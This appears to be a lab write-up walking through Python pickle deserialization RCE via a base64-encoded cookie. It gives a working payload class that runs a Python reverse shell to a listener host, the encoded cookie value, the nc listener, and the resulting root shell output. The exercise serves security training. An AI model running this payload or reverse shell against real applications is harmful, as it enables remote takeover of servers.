


# Pickle Deserialization RCE

We see cookie received is base64 encoded



`KGRwMApTJ3VzZXJuYW1lJwpwMQpTJ2pvaG4nCnAyCnMu`

Decodes as

```
(dp0
S'username'
p1
S'john'
p2
s.
```

Deserialize into data structure
```python
root@attackdefense:~# python
Python 2.7.17 (default, Jan 19 2020, 19:54:54) 
[GCC 9.2.1 20200110] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> import pickle
>>> 
>>> pickled=base64.b64decode("KGRwMApTJ3VzZXJuYW1lJwpwMQpTJ2pvaG4nCnAyCnMu")
>>> pickled
"(dp0\nS'username'\np1\nS'john'\np2\ns."
>>> pickle.loads(pickled)
{'username': 'john'}
```

Craft RCE deserialization payload
```python
import pickle
import base64
import subprocess
import os


class Shell(object):
    def __reduce__(self):
      return (os.system,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.77.173.2\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))


pickledData=pickle.dumps(Shell())
print(base64.b64encode(pickledData))
```

Running it gets us the payload
```
root@attackdefense:~# python pickled.py 
Y3Bvc2l4CnN5c3RlbQpwMAooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjc3LjE3My4yIiwxMjM0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTtcJyYnCnAxCnRwMgpScDMKLg==

```

Start a nc listener
```
root@attackdefense:~# nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Replace cookie value with pickled payload and reload request on Burp



We receive reverse shell
```
root@attackdefense:~# nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.77.173.3.
Ncat: Connection from 192.77.173.3:51768.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ps -eaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 11:49 ?        00:00:00 /usr/bin/python /usr/bin/supervisord -n
root           8       1  0 11:49 ?        00:00:00 python /app/main.py
root          58       1  0 12:30 ?        00:00:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.77.173.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
root          59      58  0 12:30 ?        00:00:00 /bin/sh -i
root          61      59  0 12:30 ?        00:00:00 ps -eaf
```
